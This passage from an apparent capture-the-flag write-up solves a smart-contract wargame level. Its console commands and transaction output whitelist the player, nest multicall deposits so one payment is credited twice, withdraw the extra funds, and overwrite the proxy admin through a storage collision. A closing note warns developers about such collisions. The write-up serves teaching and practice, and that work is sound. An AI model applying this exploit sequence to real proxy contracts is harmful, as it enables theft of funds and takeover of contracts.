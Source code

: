 Now we are `owner` and can add ourselves to whitelist:

```js
> await contract.owner() === player
true
> await contract.addToWhitelist(player)
{tx: '0xfcd8046f93bb97977142abf457e5e4594142534a0c63c2c054e69c4f8b35b08a', receipt: {…}, logs: Array(0)}
```

Get function call encodings:

```js
> depositData = await contract.methods["deposit()"].request().then(v => v.data)
'0xd0e30db0'
> multicallData = await contract.methods["multicall(bytes[])"].request([depositData]).then(v => v.data)
'0xac9650d80000000000000000000000000000000000000000000000000000000000000020000000000000000000000000000000000000000000000000000000000000000100000000000000000000000000000000000000000000000000000000000000200000000000000000000000000000000000000000000000000000000000000004d0e30db000000000000000000000000000000000000000000000000000000000'
```

Now we can call `multicall` with two multicalls.

```js
> await contract.multicall([multicallData, multicallData], {value: toWei('0.001')})
{tx: '0x2d7328b6a6930a474acdac011e37be19565d0aa717d4b7bad272ee51dcd21914', receipt: {…}, logs: Array(0)}
```

As explained, `player` balance is now 0.002 Wei and we can call `execute` to withdraw them.

```js
> await contract.execute(player, toWei('0.002'), 0x0)
{tx: '0x642501dd23bee3618bdcd36c146334840419f51fd985e94ae59c9284d2fbc047', receipt: {…}, logs: Array(0)}
```

Finally call `setMaxBalance` and as a consequence of storage collision, set `admin` to player:

```js
> await contract.setMaxBalance(player)
{tx: '0xec8ecc5264f19c69f5d221c4b25764603fd738636cc1ce5f912a580673f7896d', receipt: {…}, logs: Array(0)}
```

Neat. Finally, submit the instance to pass the level.

## Afterword

Tried to use ChatGPT to understand the contract, [here](https://chat.openai.com/share/e9a66f69-ba41-4636-bbda-ace3148927c3) is the session.

Frequently, using proxy contracts is highly recommended to bring upgradeability features and reduce the deployment's gas cost. However, developers must be careful not to introduce storage collisions, as seen in this level.
